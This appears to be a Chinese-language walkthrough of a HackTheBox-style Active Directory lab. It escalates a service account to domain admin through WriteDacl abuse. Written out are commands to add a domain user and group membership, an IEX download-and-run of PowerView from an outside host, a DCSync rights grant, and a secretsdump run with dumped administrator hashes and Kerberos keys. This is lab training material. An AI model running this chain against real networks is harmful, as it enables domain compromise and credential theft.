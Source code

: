 ![](https://pic.l1nyz-tel.cc/202307312247360.png)

发现目前获取的 svc-alfresco 用户，属于 `service account` 这个组的成员，又是 `Privileged IT Accounts` 的成员，又是 `ACCOUNT OPERATORS` `EXCHANGE WINDOWS PERMISSIONS` 的成员  
拥有 `WriteDacl` 权限，用户能够添加 `DACL`（自由访问控制列表）

当前拥有 `WriteDacl` 权限，没有 `DCSync` 权限。可以自己写入 `DCSync` 权限，然后 dump 管理员的 hash，最后进行 PTH 票据传递攻击

# 权限提升

从当前的 svc-alfresco 访问权限到位于 Domain Admins 组中的 Adminsitrator，需要进行两次跳转

## 加入 Exchange Windows Permissions Group

右键点击 GenericAll 查看 help 即可获取具体的指导

![](https://pic.l1nyz-tel.cc/202307312300659.png)

添加一个账户 `net user tel tel@123 /add /domain`  
将其添加到 Exchange Windows Permissions 中 `net group "Exchange Windows Permissions" tel /add`

![](https://pic.l1nyz-tel.cc/202307312315654.png)

## Dsync

此时 teltel 用户已在 Exchange Windows Permissions 中，再进行 DCSync 权限的添加

利用这个 [github 仓库](https://github.com/PowerShellMafia/PowerSploit)，Add-ObjectACL 模块可以添加 DCSync 权限

```shell
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.13:1234/PowerView.ps1')
$pass = convertto-securestring 'teltel123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('HTB\teltel', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity teltel -Rights DCSync
```

### DCSync 攻击前提

原理: 在**具备域管理员权限条件**下，攻击者可以**创建伪造的域控制器**，将预先设定的对象或对象属性复制到正在运行域服务器中。

一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

- Administrators 组内的用户
- Domain Admins 组内的用户
- Enterprise Admins 组内的用户
- 域控制器的计算机帐户

## secretsdump

具有 DCSync 权限的用户，可以使用工具直接导出管理员账号 hash

```shell
> python3 secretsdump.py 'teltel:teltel123!@10.10.10.161'
Impacket v0.10.1.dev1+20230728.114623.fb147c3f - Copyright 2022 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
......
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
```